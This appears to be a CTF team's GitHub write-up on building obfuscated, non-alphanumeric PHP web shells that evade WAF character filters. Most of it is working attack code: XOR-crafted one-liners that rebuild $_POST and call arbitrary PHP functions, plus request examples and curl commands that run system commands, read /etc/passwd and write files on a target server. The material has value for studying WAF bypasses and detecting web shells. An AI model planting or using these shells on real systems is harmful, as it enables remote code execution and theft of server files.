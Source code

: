# Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside.

This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.

At first there are already non-alphanumeric shells out in the wild but the ones i have seen had one thing in common they needed Quotation marks to create a string once to craft letters out of it.

So I thought to myself, that it would be a quite cool idea to develope a shell which could avoid that and still work the same way.
Thats the first Solution i came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
| - | - | - |
| A | 0 | q |
| A | 6 | w |
| q | w | . |
| a | 8 | Y |
| . | Y | _ |
| a | 1 | P |
| y | 6 | O |
| a | 2 | S |
| a | 5 | T |

Which resulted in \_POST and then can be used to run functions with arguments over code. (This feature is present since php7)

Like this:

```php
// $_ is $_POST
$_[0]($_[1]);
```

Thats quite cool but its so fucking huge so i tough i would optimize the hell out of it. So here is my Minified version of it.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as ```0=system&1_=cat /etc/passwd```

The downside is that if you dont have access to the system function you got no return values
so here is another slightly bigger variation of the shell which will print the result of a function.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2]));
```

So you can send a request such as ```0=print_r&1=file_get_contents&2_=/etc/passwd```

Here are small curl snippets for you lazy folks to work with the shell :D

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd" # Shell 1
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=file_get_contents" -F "2=/etc/passwd" # Shell 2
```

The full tryhard shell can be archived with this snipped:

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2], $_[3]));
```

With this setup we can run any function with as much arguments as we like.


```bash
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=call_user_func_array" -F "2=file_put_contents" -F "3[]=hello.txt" -F "3[]=testcontent"
```


Cli-Ish over and out.

PS: Checkout our cool team page https://pwnprophecy.tk
